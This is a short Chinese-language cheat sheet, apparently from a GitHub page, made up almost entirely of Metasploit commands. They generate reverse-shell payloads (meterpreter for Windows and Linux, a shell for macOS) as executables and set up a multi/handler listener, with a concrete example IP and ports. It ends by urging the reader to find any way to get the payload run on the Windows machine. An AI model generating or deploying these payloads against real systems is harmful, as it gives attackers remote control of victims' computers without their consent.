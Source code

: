 # 生成msf常用payload列表

在kali下可以使用如下命令列出MSFVenom可以生成的payload列表：
```
msfvenom -l
```
# 生成二进制文件(.exe)

关于二进制文件，主要介绍适用于`Windows、linux、mac`操作系统的payload生成与利用。

## Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

## Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

## Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
## 如何利用

如针对Windows生产一个exe的payload：
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe
```
> 复制re.exe到Windows机器，然后kali下开启msf使用如下命令监听4444端口：


### msf调用这个框架
```
 use exploit/multi/handler
```
### 绑定payload
```
set payload windows/x64/meterpreter_reverse_tcp 
```
### 填写链接参数
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 4444         // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
### 填写链接端口
```
 set ExitOnSession false     \\ 这样以后就不会自动结束掉job了
```
```
exploit -j -z  \\GKDGKD
```
想尽办法在Windows端运行即可
